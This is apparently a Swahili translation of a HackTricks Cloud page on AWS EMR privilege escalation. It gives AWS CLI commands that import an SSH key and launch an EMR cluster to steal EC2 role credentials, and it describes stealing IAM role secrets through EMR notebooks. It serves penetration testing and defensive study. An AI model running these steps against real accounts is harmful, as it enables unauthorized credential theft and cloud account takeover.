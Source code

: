 # AWS - Ukarabati wa Mamlaka ya EMR

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Maelezo zaidi kuhusu **EMR** yamo:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Mshambuliaji mwenye ruhusa hizi anaweza **kuendesha kikundi kipya cha EMR kikiambatanisha majukumu ya EC2** na kujaribu kuiba vibali vyake.\
Tafadhali kumbuka kwamba ili kufanya hivi unahitaji **kujua funguo ya siri ya ssh iliyosafirishwa kwenye akaunti** au kusafirisha moja, na uweze **kufungua bandari 22 kwenye nodi ya bwana** (unaweza kufanya hivi kwa sifa `EmrManagedMasterSecurityGroup` na/au `ServiceAccessSecurityGroup` ndani ya `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Tafadhali angalia jinsi **jukumu la EMR** linavyotajwa katika `--service-role` na **jukumu la ec2** linavyotajwa katika `--ec2-attributes` ndani ya `InstanceProfile`. Hata hivyo, mbinu hii inaruhusu tu kuiba siri za jukumu la EC2 (kwani utaunganisha kupitia ssh) lakini sio Jukumu la IAM la EMR.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma la EC2 lililotajwa.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Kwa idhini hizi, mshambuliaji anaweza kwenda kwenye **konsoli ya AWS**, kuunda Mwongozo na kufikia ili kuiba Jukumu la IAM.

{% hint style="danger" %}
Hata kama unaweka jukumu la IAM kwa kifaa cha mwongozo katika majaribio yangu niligundua kuwa niliweza kuiba siri zilizosimamiwa na AWS na sio sifa zinazohusiana na jukumu la IAM.
{% endhint %}

**Athari Inayowezekana:** Privesc kwa jukumu lililosimamiwa na AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Kwa idhini hii pekee, mshambuliaji ataweza kufikia **Mwongozo wa Jupyter na kuiba jukumu la IAM** linalohusiana nalo.\
URL ya mwongozo ni `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Hata kama unaweka jukumu la IAM kwa kifaa cha mwongozo katika majaribio yangu niligundua kuwa niliweza kuiba siri zilizosimamiwa na AWS na sio sifa zinazohusiana na jukumu la IAM.
{% endhint %}

**Athari Inayowezekana:** Privesc kwa jukumu lililosimamiwa na AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Jifunze & zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
